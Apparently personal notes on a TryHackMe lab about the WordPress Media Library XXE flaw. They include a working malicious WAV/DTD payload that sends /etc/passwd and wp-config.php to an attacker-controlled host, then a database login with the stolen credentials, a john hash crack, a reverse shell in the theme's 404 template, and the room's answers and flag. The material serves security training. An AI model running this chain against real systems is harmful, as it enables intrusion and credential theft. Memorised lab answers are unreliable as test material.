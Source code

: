 ![[IMG/Pasted image 20240927080431.png]]

An XXE vulnerability consists of an injection that takes advantage of the poor configuration of the XML interpreter. This allows us to include external entities, enabling us attack to applications that interpret XML language in their parameters. We'll explore a recent XXE vulnerability, albeit one that comes with some situational caveats.

Researchers at security firm SonarSource discovered an XML external entity injection (XXE) security flaw in the WordPress Media Library. The vulnerability can be exploited only when this CMS runs in PHP 8 _and_ the attacking user has permissions to upload media files. Take note of the latter condition as we walk through an example of exploiting this vulnerability below.
## Impact

- **Arbitrary File Disclosure**: The contents of any file on the host’s file system could be retrieved, e.g. _wp-config.php_ which contains sensitive data such as database credentials.
- **Server-Side Request Forgery (SSRF)**: HTTP requests could be made on behalf of the WordPress installation. Depending on the environment, this can have a serious impact.

**Exploiting the vulnerability**

A WordPress site affected by this vulnerability has been identified via the WPScan tool. We can see the output of this tool below from our enumeration.

![](https://i.imgur.com/mrPwSpA.png)

In this example, we have identified that the author user uses weak credentials.

`user: test-corp`
`password: test`

![](https://i.imgur.com/tw7QtLJ.png)

In this case, we can see that this user has permission to upload media files. We can leverage this to upload a reverse shell!

**Creating a malicious WAV file.**

It's very easy, in your bash console enter the following command:

```php 
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav   
```

On your attack machine (likely Kali or the TryHackMe AttackBox) create a dtd file with the following code. This will allow us to execute code following the webserver fetching the dtd file. Be sure the name of this file matches what you put entered in the .wav file for NAMEEVIL.dtd (see the previous code blurb).

```php
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">   
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

  
Now launch an http server in the same directory as the dtd file.  

`php -S 0.0.0.0:PORT`  

```php
php -S 0.0.0.0:8443
```

Now upload the malicious .wav to the WordPress application!

![](https://i.imgur.com/MkcDIN4.png)  

Once you've uploaded the .wav file, you should see the following request in your HTTP server logs. Note, in order to exfiltrate data effectively we've used Zlib for encoding. 

For practice (and the sake of this example), let's use PHP to decode this blurb! Create a .php with the following code, just be sure to copy and paste the base64 returned from the WordPress server where we have 'base64here' in the example code.

```php
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Run the php file with the following command: php FILENAME.php

![](https://i.imgur.com/yepzG1E.png)  

  
Similarly, we can also leverage other base64 encoding libraries like the following:

```php
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">   
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Decoding this is a breeze from here! We can copy the base64 blurb received back into the console for decoding with the following command:

```php
echo "base64here" | base64 -d
```

Move onto the next task to try this out for yourself!

---

User: test-corp
Pass: test

/wp-login

```php
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav 
```

```php
nano NAMEEVIL.dtd
```

```php
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">   
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Start server, then upload dtd file:

```php
php -S 0.0.0.0:8443
```

Create php file to decode the responses 

```php
nano decode.php
```

```php
<?php echo zlib_decode(base64_decode('base64here')); ?>
```
- Add the php resonse in the `base64here` section, then run the code with:

```php
php decode.php
```


/wp-config.php

```php
php decode.php > wp-config.php
```

This gives the config file.

I use nmap to get the MySql details

Login to MySql

```php
mysql -h <IP> -u DB_USER -p
```

User: thedarktangent
Pass: sUp3rS3cret132

```php
mysql -h 10.10.234.231 -u thedarktangent -p
```

I was having trouble logging into the MySql database so i had to turn off the tls/ssl

MySql
```php
mysql -h 10.10.160.147 -u thedarktangent -p --skip-ssl
```

```php
show databases;
```

```php
use wordpressdb2;
```

```php
show tables;
```

```php
select * from wptry_users;
```

Echo into a file for john 

```php
echo '$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1' > hash.txt
```

```php
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
- Results: teddybear

User: corp-001
Pass: teddybear

```php
ssh corp-001@<IP> 
```
- I'll try the web-page as well

Go to appearance -> theme editor, and change to twenty nineteen

Paste pentester-monkey rev shell into the 404 file

![[IMG/Pasted image 20240927100258.png]]

Now just navigate to something that doesn't exist and the 404 page should fire:
`http://10.10.81.226/index.php/category/uncategorized/asasa`

Stable shell
```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Flag 
```php
cat /home/stux/flag/flag.txt
```


---



1. Based on the results of #1, what is the name of the database for WordPress?  
`wordpressdb2`

2. Based on the results of #1, what are the credentials you found?  
`thedarktangent:sUp3rS3cret132`

3. Enumerate and identify what is the dbms installed on the server?  
`mysql`

4. Based on the results of #4, what is the dbms version installed on the server?  
`MySQL 5.7.33`

5. Based on the results of #4, what port is the dbms running on?  
`3306`

6. Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??
`$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1`

7. Based on the results of #7, What is the password in plaint text?  
`teddybear`

8. Compromise the machine and locate flag.txt
`thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}`

---

**Completed:** _10:21 2024-09-27_

